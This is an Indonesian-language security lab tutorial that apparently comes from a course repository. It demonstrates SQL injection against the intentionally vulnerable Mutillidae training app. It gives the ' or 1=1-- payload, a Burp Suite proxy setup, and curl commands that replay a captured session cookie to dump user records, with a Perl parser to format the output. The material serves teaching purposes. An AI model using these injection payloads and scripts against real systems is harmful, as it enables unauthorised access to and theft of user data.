 Lesson 7 - SQL Injection, Burpsuite, cURL, Perl Parser
-------

### # Mempersiapkan Burp Suite dan Firefox

- **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)


-  **Step 2** : Setting proxy pada firefox dengan membuka pengaturan network melalui open menu --> Preferences -> Advanced --> Network

- **Step 3** : Pada bagian connection, klik tombol _Settings_. Setelah mengklik tombol _Settings_, maka akan muncul kotak dialog _Connection Settings_. Atur _Connection Settings_ sesuai gambar.
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_06_35.png)

- **Step 4** : Buka burpsuite, dengan cara pilih Applications --> Web Application Analysis --> burpsuite
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_10_12.png)


 - **Step 5** : Pada saat burpsuite telah dibuka, maka akan ditanyakan tentang project. Klik tombol Next 
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_24_51.png)
 
 - **Step 6** : Setelah menekan tombol next, maka selanjutnya ada memilih konfigurasi burp. Pilih radio button User Burp defaults dan Klik Start Burp
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_26_28.png)
 
 - **Step 7** : Setelah menekan tombol Start Burp, maka aplikasi Burp Suite sudah berjalan. Langkah selanjutnya adalah memastikan apakah port proxy pada Burp Suite adalah 8080, dengan cara memilih menu Proxy --> Options
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_31_58.png)
 
 - **Step 8** : Setelah memastikan port porxy 8080, maka selanjutnya adalah mematikan Intercept pada menu Proxy --> Intercept.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_34_07.png)
 
 
 ### # SQL Injection: Obtain Userlist (Method #1)
 - **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
 - **Step 2** : Melakukan SQL Injection untuk mendapatkan semua user tanpa password dengan cara memasukkan `' or 1=1--` pada kolom username. Kemudian tekan tombol _View Account Detail_.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_51_37.png)
 
 - **Step 3** : Setelah menekan tombol _View Account Detail_, maka halaman akan muncul error query. Perhatikan syntax query yang digunakan. 
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_42_33.png)
 
 - **Step 4** : Setelah melihat syntax query yang digunakan bahwa syntax comment `--` untuk sql tidak berjalan karena kurang spasi. Maka selanjutnya adalah menambahkan spasi setelah tanda comment sql `--` menjadi `' or 1=1-- `. Kemudian tekan tombol _View Account Detail_ lagi.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_52_52.png)
 
 
 - **Step 5** : Maka hasilnya kita mendapatkan data user. 
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_55_56.png)
 
 - **Step 6** : Buka Burp Suite kemudian pilih menu Proxy -> HTTP History. Kemudian cari log hasil sniffing **step 5**. Perhatikan header requestnya.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_17_03_16.png)
 
 
 #### # Simulate CURL SQL Injection: (Method #2)
 - **Step 1** : Copy cookies PHPSESSID pada header request pada Burp Suite Bagian SQL Injection: Obtain Userlist (Method #1) **Step 6** dan simpan pada file crack_cookies.txt
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_17_49_09.png)
 - **Step 2** : Jalankan perintah
 
 `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'`
 
 - **Step 3** : Setelah menjalankan perintah, hasil dari curl sql injection dapat dilihat pada terminal.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_17_57_09.png)
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_18_03_41.png)
 
#### # Perl Parser

 - **Step 1** : Download perl parser lesson 7 pada link berikut [http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT](http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT)
 
 - **Step 2** : Ganti nama file lesson7.pl.TXT menjadi lesson7.pl, kemudian ubah permission file tersebut menjadi `rwx------` atau 700.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_18_08_20.png)

 - **Step 3** : Jalankan perintah 
 `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep "Username=" > lesson7.txt`. Perintah tersebut akan menyimpan hasil curl pada file lesson7.txt
 
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_18_11_36.png)
 
 **Step 4** : Jalankan lesson7.pl dan kemudian lihat hasilnya.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_18_14_03.png)
 
 
 
 

>>>>>>> Thoni/Lesson7

